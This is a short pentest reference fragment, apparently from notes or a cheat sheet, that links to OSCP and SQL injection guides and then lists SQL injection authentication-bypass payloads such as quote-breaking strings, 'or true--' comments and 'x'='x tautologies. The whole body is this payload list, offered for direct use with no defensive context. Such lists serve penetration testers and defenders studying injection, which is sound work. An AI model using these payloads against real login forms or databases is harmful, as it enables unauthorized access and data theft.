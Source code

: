 https://sushant747.gitbooks.io/total-oscp-guide/content/sql-injections.html
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md
http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet

```
admin' or '1'='1 #
-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
```
